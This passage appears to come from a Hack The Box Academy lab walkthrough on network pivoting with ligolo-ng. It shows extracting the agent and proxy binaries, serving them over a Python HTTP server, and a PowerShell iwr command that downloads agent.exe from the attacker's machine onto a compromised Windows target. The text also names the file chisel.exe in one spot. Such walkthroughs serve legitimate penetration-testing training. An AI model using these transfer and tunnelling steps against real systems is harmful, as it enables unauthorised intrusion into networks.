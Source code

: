 Once downloaded, students will proceed to extract the archives using `unzip` and `tar`:

Code: shell

```shell
unzip ligolo-ng_agent_0.6.2_windows_amd64.zip
tar xvf ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
chmod +x proxy
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ unzip ligolo-ng_agent_0.6.2_windows_amd64.zip

Archive:  ligolo-ng_agent_0.6.2_windows_amd64.zip
  inflating: LICENSE                 
  inflating: README.md               
  inflating: agent.exe 

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ tar xvf ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz 

LICENSE
README.md
proxy

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ chmod +x proxy
```

Students will start a Python HTTP server to transfer the `chisel.exe` onto the target machine:

Code: shell

```shell
python3 -m http.server
```

```shell-session
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Subsequently, students will return to the RDP session and the previously spawned `PowerShell` window, where they will proceed to download the executable:

Code: powershell

```powershell
iwr -uri http://PWNIP:8000/agent.exe -o agent.exe
```

```powershell-session
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/agent.exe -o agent.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `ligolo`'s proxy:
